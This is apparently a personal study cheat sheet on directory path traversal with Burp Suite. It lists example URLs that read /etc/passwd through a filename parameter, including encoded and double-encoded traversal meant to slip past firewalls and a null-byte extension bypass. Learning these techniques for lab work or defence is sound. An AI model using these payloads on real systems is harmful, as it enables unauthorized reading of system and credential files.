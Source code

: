 # Website Directory Path Attack

-- Using Burpsuite --

`In Burp :`

- "proxy" tab
- intercept = off
- HTTP history to view all requests
- ctrl + r on a request to go to repeater --> modify the request and view response easily

## Learn how to retrieve hidden file (ex: etc/passwd) :

### Simple attack

- Find some place in the website were files are being displayed (like images)
- The URL should look like :
```
url.com/image/filename?filename=gift.jpg
```
- use it to access other files in the folders :
```
url.com/image/filename?filename=../../../etc/passwd
```
- other ways to access it (like going to the root)
```
url.com/image/filename?filename=/etc/passwd
url.com/image/filename?filename=....//....//....//etc/passwd
```

### Adding encoding

Some website might reject caracters you are trying to pass to the URL such as the "/", so we will try to encode those caracters

`In Burp :`

- "Decoder" tab
- enter any caracter or string such as "../../../"
- click "encode as URL" to encode it
- click multiple times on the new tabs fo multiple levels of encoding

adding encoding to the request :

- try to encode to avoid firewall blocking the request containing "../../../"
```
url.com/image/filename?filename=%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd
```

Trying double encoding might bypass some firewall rules but if it doesn't work, we don't bother adding more levels of encoding

### Adding Null Byte

Make the website believe you are requesting an image (jpg) file to bypass security rules

- We use a "Null Byte" %00 to mark the end of the string
```
url.com/image/filename?filename=../../../etc/passwd%00.jpg
```